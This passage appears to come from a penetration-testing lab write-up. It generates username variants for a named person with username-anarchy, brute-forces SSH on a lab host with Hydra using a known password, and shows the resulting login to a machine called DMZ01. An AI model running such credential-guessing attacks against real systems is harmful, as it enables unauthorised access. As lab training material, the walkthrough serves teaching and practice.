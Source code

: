 ### Username Generation with Username-Anarchy

#### Installation and Setup
```bash
# Clone username-anarchy tool
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy

# Generate username variations for Betty Jayde
./username-anarchy Betty Jayde > user.list
```

#### Generated Username Patterns
```bash
# Common corporate patterns generated:
betty
bjayde
jayde
betty.jayde
jayde.betty
bettyjayde
jaydebet
b.jayde
betty_jayde
jbetty
```

### SSH Brute Force Attack

#### Hydra SSH Attack
```bash
# Brute force SSH with generated usernames and known password
hydra -L user.list -p 'Texas123!@#' ssh://10.129.234.116

# Expected output:
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 15 tasks per 1 server, overall 15 tasks, 15 login tries (l:15/p:1), ~1 try per task
[DATA] attacking ssh://10.129.234.116:22/
[22][ssh] host: 10.129.234.116   login: jbetty   password: Texas123!@#
1 of 1 target successfully completed, 1 valid password found
```

#### Successful SSH Access
```bash
# Connect with discovered credentials
ssh jbetty@10.129.234.116

# Result: Successfully logged into DMZ01 machine
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-216-generic x86_64)
jbetty@DMZ01:~$
```

---